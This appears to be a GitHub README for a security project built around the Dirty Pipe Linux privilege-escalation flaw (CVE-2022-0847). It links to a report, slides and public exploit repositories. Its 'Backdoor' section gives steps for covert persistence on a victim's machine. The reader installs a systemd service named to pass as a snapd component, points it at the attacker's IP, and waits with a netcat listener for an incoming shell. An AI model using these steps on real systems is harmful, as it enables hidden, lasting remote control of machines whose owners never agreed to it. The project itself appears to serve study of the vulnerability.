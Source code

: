 # Detailed information about this project
- Report: https://github.com/stefanoleggio/dirty-pipe-cola/blob/main/Dirty%20Pipe%20Cola%20-%20Final%20report.pdf 
- Slides: https://github.com/stefanoleggio/dirty-pipe-cola/blob/main/Dirty%20Pipe%20Cola%20-%20Project%20Presentation.pdf

# Reference to CVE-2022-0847-DirtyPipe-Exploits
- https://github.com/febinrev/dirtypipez-exploit
- https://github.com/basharkey/CVE-2022-0847-dirty-pipe-checker

# Backdoor
- On the victim's machine, once priviledge has been achieved, place the snapd.loading.service in /etc/systemd/system folder. And run `$ sudo systemctl enable snapd.loading.service --now`. Note that the IP of the attacker device/server needs to be changed.

- On attacker machine, execute whenever you want to connect: `$ nc -nvlp 9001`


